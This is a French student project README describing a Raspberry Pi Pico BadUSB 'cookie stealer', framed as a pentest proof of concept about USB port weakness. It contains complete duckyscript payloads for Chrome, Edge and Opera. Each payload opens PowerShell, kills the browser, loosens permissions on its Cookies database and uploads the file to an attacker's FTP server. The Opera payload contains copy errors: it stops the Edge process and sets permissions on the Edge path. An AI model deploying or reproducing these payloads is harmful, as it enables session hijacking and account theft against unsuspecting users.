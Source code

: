 # P.O.C. : Pico cookie stealer 🍪
![page de garde](https://i.postimg.cc/sDLF4mMg/8ptlvi.jpg)
###### auteurs : Bjorn HOUGEN, Nathan DERC, Georges LE GOASTER
## Sommaire
- [Introduction](#A)
- [Fonctionnement ⚙️](#B)
- [Objectif 🎯](#C)
- [Mise en œuvre 🛠️](#D)
	- [Le hardware](#E)
	- [Le software](#F)
- [Les Problèmes 🪳](#G)
	- [Brickage du premier hardware 🧱](#H)
	- [Firefox 🔥🦊](#I)
- [Axes d'amélioration 📈](#J)
- [Conclusion](#K)
	
## Introduction  <a id="A"></a>
Le but de ce projet est, par un moyen matériel, de récupérer des données sensible d'un utilisateur via un vecteur d'attaque physique.
## Fonctionnement ⚙️ <a id="B"></a>
Fig. 1<a id="L"></a>
![Fonctionnement](https://i.postimg.cc/PrxVy6QW/Untitled-diagram-2024-05-10-124720.png)

Fig. 2
![pin-connections](https://i.postimg.cc/WpQ8GsZQ/Capture-d-cran-2024-03-20-114154.png)

 1. désactive l'execution de la payload
 2. cache le stockage flash
 3. active la payload n°2
 4. active la payload n°3
 5. active la payload n°4

## Objectif 🎯<a id="C"></a>
Le but de ce projet est de mettre en lumière l'un des point d'entrée les plus vulnérables d'une machine : ses ports USB. La plupart des machines sont peu, ou pas protégées contre ce type d'attaque. Bien que les principaux outils pour ce type d'attaque soient assez onéreux, le but était aussi de montrer que ce vecteur d'attaque est accessible à peu de frais.

## Mise en œuvre 🛠️<a id="D"></a>
Ceette documentation vise à la création d'un outil de pentest permettant, de simuler les frappes sur un clavier de la machine cible afin de récupérer des donné envoyées vers un serveur FTP (cf [figure 1](#L))
### Le hardware <a id="E"></a>
Le hardware utilisé est une carte Raspberry Pi Pico équipée d'un microcontrolleur RP2040 capable d'executer du code micropython (dans notre cas un fork : [circuitpython](https://github.com/adafruit/circuitpython)
Le serveur FTP utilisé est une machine virtuelle sous Debian 12 hébergé sur une Freebox Ultra qui fais tourner [vsftpd](https://security.appspot.com/vsftpd/vsftpd_conf.html)
### Le Software <a id="F"></a>
Pour la partie software, le code est issu du repository de [dbisu](https://github.com/dbisu/pico-ducky) dépouillé des fichiers contenant les dispositions de clavier autres que le azerty français ainsi que de la partie dédiée à la version wireless de la carte: `secrets.py`, `webapp.py` et `wsgiserver.py`
### Les payloads 🚀<a id="G"></a>
Voici les payloads écrites en duckyscript pour les différents navigateurs 
#### Chrome
```duckyscript
GUI r
DELAY 1500
STRING powershell
ENTER
DELAY 2000
STRING Stop-Process -Name "chrome"
ENTER
DELAY 2000
STRING $rule = New-Object System.Security.AccessControl.FileSystemAccessRule("Tout le monde", "FullControl", "Allow"); $acl = Get-Acl -Path 'AppData\Local\Google\Chrome\User Data\Default\Network\Cookies'; $acl.SetAccessRule($rule); Set-Acl -Path 'AppData\Local\Google\Chrome\User Data\Default\Network\Cookies' -AclObject $acl
ENTER
DELAY 2000
STRING ftp [adresse du serveur]
ENTER
DELAY 2000
STRING thief
ENTER
DELAY 2000
STRING thief
ENTER
DELAY 2000
STRING put "AppData\Local\Google\Chrome\User Data\Default\Network\Cookies"
DELAY 2000
ENTER
DELAY 4000
ALT F4
```
#### Edge
```duckyscript
GUI r
DELAY 1500
STRING powershell
ENTER
DELAY 2000
STRING Stop-Process -Name "msedge"
ENTER
DELAY 2000
STRING $rule = New-Object System.Security.AccessControl.FileSystemAccessRule("Tout le monde", "FullControl", "Allow"); $acl = Get-Acl -Path 'AppData\Local\Microsoft\Edge\User Data\Default\Network\Cookies'; $acl.SetAccessRule($rule); Set-Acl -Path 'AppData\Local\Microsoft\Edge\User Data\Default\Network\Cookies' -AclObject $acl
ENTER
DELAY 2000
STRING ftp [adresse du serveur]
ENTER
DELAY 2000
STRING thief
ENTER
DELAY 2000
STRING thief
ENTER
DELAY 2000
STRING put "AppData\Local\Microsoft\Edge\User Data\Default\Network\Cookies"
DELAY 2000
ENTER
DELAY 4000
ALT F4
```
#### Opera
```duckyscript
GUI r
DELAY 1500
STRING powershell
ENTER
DELAY 2000
STRING Stop-Process -Name "msedge"
ENTER
DELAY 2000
STRING $rule = New-Object System.Security.AccessControl.FileSystemAccessRule("Tout le monde", "FullControl", "Allow"); $acl = Get-Acl -Path 'AppData\Roaming\Opera Software\Opera Stable\Default\Network\cookies'; $acl.SetAccessRule($rule); Set-Acl -Path 'AppData\Local\Microsoft\Edge\User Data\Default\Network\Cookies' -AclObject $acl
ENTER
DELAY 2000
STRING ftp [adresse du serveur]
ENTER
DELAY 2000
STRING thief
ENTER
DELAY 2000
STRING thief
ENTER
DELAY 2000
STRING put "AppData\Roaming\Opera Software\Opera Stable\Default\Network\cookies"
DELAY 2000
ENTER
DELAY 4000
ALT F4
```
#### Firefox
🚧work in progress🚧

## Les Problèmes 🪳<a id="G"></a>

### Brickage du premier hardware 🧱<a id="H"></a>
Le premier hardware envisagé pour ce projet était une clé USB comportant un microcontrolleur phison-2307 vulnérable pouvant être [converti en bad-USB](https://github.com/bidhata/phison-2307-BadUSB) en modifiant son firmware via un éditeur exadécimal. devant l'impossibilité de retrouver ce même hardware nous en avons choisi un plus accessible.

### Firefox 🔥🦊<a id="I"></a>
Le chemin d'accès vers le fichier `cookies.sqlite`comprenant une chaine de caractères générée par  d'un utilisateur à l'autre, nous ne sommes pas parvenus à l'extraire.

## Axes d'amélioration 📈<a id="J"></a>
- Finition avec boitier et interrupteurs
- Payload pour firefox

## Conclusion <a id="K"></a>
En conclusion, ce projet a exploré les vulnérabilités des ports USB, démontrant la fragilité de ces dispositifs face aux attaques physiques. Ce projet nous a aussi permis d'explorer plusieur aspects de l'informatique : le bas niveau, pe python, le scripting ainsi que le réseau, ainsi qu'une communication entre les membres du groupe pour mener à bien les diférentes composantes de ce projet